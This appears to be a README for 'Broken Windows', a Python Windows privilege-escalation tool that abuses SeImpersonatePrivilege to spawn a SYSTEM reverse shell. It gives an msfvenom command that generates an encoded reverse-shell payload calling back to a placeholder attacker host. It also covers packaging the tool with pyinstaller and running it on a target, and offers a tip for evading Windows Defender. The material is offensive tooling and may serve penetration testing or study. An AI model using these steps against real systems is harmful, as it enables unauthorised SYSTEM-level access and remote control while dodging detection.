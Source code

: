 # Broken-Windows

## What is Broken Windows?

It's a privilege escalation tool for Windows. It leverages the access token of the user who runs it to eventually pop a reverse shell as SYSTEM. The user's access token **must** have the SeImpersonatePrivilege in order for Broken Windows to work. 

It can be run through the Python interpreter if it's available on your target system, or it can be run as a standalone executable.

## How can I convert the Broken Windows.py file to an executable?

Just follow these steps.

```
pip install pyinstaller
```
```
pyinstaller --onefile --console "/path/to/Broken Windows.py"
```

```Broken Windows.exe``` will be in the ```dist``` folder created by pyinstaller.

## How do I use it?

Generate a reverse shell with msfvenom. Remember to remove x64 from the command if your target system is 32 bit. If msfvenom fails to encode your reverse shell due to one of the bad bytes, run the command again.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=MACHINE_IP LPORT=PORT -f python -b "\x00,\xFF,\x0A,\x0D" -e x86/shikata_ga_nai -n 32
```

Copy the shellcode outputted by msfvenom and paste it into the ```BrokenWindows.py``` file, in the ```main``` function.

Then, simply execute ```Broken Windows.py``` or ```Broken Windows.exe``` on your target system:

![CMD](https://user-images.githubusercontent.com/16895391/129423983-a96c33b5-e0d9-458b-abee-128fb2ff0c5b.PNG)

![PYTHON](https://user-images.githubusercontent.com/16895391/129424058-05a8ed5d-4d8d-4e3b-9bac-c5ef72ffe6c9.PNG)

You (hopefully!) will receive a reverse shell as SYSTEM:

![SHELL](https://user-images.githubusercontent.com/16895391/129421207-727ed0e5-8175-4fb7-aa0a-0c1b3a77741c.PNG)

## Tips and Tricks

I have noticed that Windows Defender (and possibly other AVs) **do not** detect any threats if you use the python interpreter to run Broken Windows instead of the executable. If you use the executable, most AVs runtime analysis will detect the reverse shell.

## Why did you use Python for this?

### Good question.

To be honest with you, I have no idea. This project almost entirely uses win32 api functions that are accessed through ctypes. It would make more sense to just use C or C++ to do this, but I guess I just wanted to see if it could be done with ctypes?
